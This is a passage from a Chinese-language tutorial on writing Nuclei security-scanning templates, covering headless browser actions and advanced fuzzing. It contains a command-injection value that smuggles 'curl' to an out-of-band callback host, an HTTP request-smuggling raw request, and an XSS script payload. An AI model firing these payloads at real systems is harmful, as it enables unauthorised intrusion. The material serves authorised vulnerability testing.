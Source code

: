 ```yaml
          value: "test;curl {{interactsh-url}};echo "
          xpath: /html/body/form/input[1]
      - action: click
        args:
          by: xpath
          xpath: /html/body/form/p/input[1]
      - action: waitload
 
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction 
        words:
          - "http"

```

模板应该使用CLI上的-headless选项运行，如下所示：

```bash
nuclei -u https://10.20.30.40 -t mmwiki-rce-headless.yaml -headless
```

请务必记住使用-headless标志！如果没有这个标志，Nuclei仍然会运行模板，但你可能不会得到任何发现，或者没有任何迹象表明实际上并没有向目标发送任何内容。

## 高级模糊测试

之前我们简单提到了在HTTP模式下对应用程序进行模糊测试。Nuclei模板支持一些更高级的模糊测试功能。在这里我们将对其进行概述。

这些功能包括：

- 不安全请求
- 流水线
- 连接池
- 竞争条件

### 不安全请求

Nuclei通过rawhttp库支持畸形的HTTP请求，可用于测试诸如HTTP请求走私和Host头注入等问题。要使用不安全HTTP模式，需要在请求块中设置`unsafe:true`选项。以下是一个简短的HTTP请求走私示例，演示了一个不安全的请求。

```yaml
requests:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
```